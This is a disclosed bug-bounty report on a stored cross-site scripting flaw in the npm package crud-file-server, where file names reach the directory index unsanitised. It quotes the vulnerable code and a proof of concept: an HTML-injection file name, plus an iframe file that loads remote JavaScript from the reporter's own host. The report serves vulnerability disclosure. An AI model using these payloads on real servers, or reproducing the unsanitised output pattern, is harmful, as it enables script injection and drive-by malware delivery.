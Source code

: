# [crud-file-server] Stored XSS in filenames when directory index is served by crud-file-server

## Report Details
- **Report ID**: 311101
- **URL**: https://hackerone.com/reports/311101
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-01-31T20:38:25.774Z
- **Disclosed**: 2018-02-17T17:51:51.597Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

**crud-file-server** allows to embed HTML in file names, which (in certain conditions) might lead to execute malicious JavaScript.

## Module

**crud-file-server**

This package exposes a directory and its children to create, read, update, and delete operations over http.

https://www.npmjs.com/package/crud-file-server

version: 0.7.0

Stats
0 downloads in the last day
26 downloads in the last week
220 downloads in the last month

~2500 estimated downloads per year


## Description

This vulnerability exists, because ```name``` which represents filename(s) is output in HTML without any sanitization. This allows to embed malicious code in filenames listed in directory:

```javascript
// node_modules/crud-file-server/crud-file-server.js, line 137
    res.setHeader('Content-Type', 'text/html');											
    res.write('<html><body>');
    for(var f = 0; f < results.length; f++) {
        var name = results[f].name;
        var normalized = url + '/' + name;
        while(normalized[0] == '/') { normalized = normalized.slice(1, normalized.length); }
        res.write('\r\n<p><a href="/' + normalized + '">' + name + '</a></p>');
    }
    res.end('\r\n</body></html>');
```
## PoC - Steps To Reproduce:

- install ```crud-file-server```

```
$ npm install crud-file-server
```


- in the directory which will be served via ```crud-file-server```, create file with following name:

```
"><iframe src="malware_frame.html">
```

- create second file with name ```malware_frame.html``` with following content and save it in the same directory:


```
<html>

<head>
    <meta charset="utf8" />
    <title>Frame embeded with malware :P</title>
</head>

<body>
    <p>iframe element with malicious code</p>
    <script type="text/javascript" src="http://bl4de.tech/poc.js"></script>
</body>

</html>
```

Run ```crud-file-server``` in directory with file with changed filename:

```
$ ./node_modules/crud-file-server/bin/crud-file-server -f ./ -p 8080

usage:
  crud-file-server [options]

this starts a file server using the specified command-line options

options:

  -f file system path to expose over http
  -h log head requests
  -p port to listen on (example, 80)
  -q suppress this message
  -r read only
  -v virtual path to host the file server on

example:

  crud-file-server -f c:/ -p 8080 -q -v filez

listening on :8080/, serving ./
```

and open ```http://127.0.0.1:8000``` in the browser. You will notice an alert served from bl4de.tech, executed in context of page with directory index:

{F259251}


## Supporting Material/References:

Configuration I've used to find this vulnerability:

- macOS HighSierra 10.13.3
- node 8.9.3
- npm 5.5.1
- curl 7.54.0

## Wrap up

I hope this report will help to keep Node ecosystem more safe. If you have any questions about any details of this finding, please let me know in comment.

Thank you

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability can be used to eg. download malware via "drive-by-download" attacks. Also, as described in other modules I've reported similar vulnerabilty, an iframe with malicious JS file loaded from external resource can be executed.

## Attachments
- 1.png

